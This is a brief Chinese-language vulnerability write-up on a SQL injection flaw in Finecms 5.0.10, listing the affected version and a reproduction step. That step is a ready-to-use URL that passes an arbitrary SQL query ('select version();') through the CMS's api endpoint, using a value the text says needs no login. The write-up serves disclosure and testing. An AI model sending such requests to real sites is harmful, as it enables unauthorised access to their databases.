 Finecms 5.0.10 sql注入漏洞
==========================

一、漏洞简介
------------

> auth值是由`zero_ci_session`中zero进行md5加密获取到的，无需登陆便有，且每个站点的站长会进行不同的自定义

二、漏洞影响
------------

Finecms 5.0.10

三、复现过程
------------

    http://0-sec.org/index.php?c=api&m=目标站点的值&param=action=sql%20sql=%27select%20version();%27

![](./.resource/Finecms5.0.10sql注入漏洞/media/rId24.png)

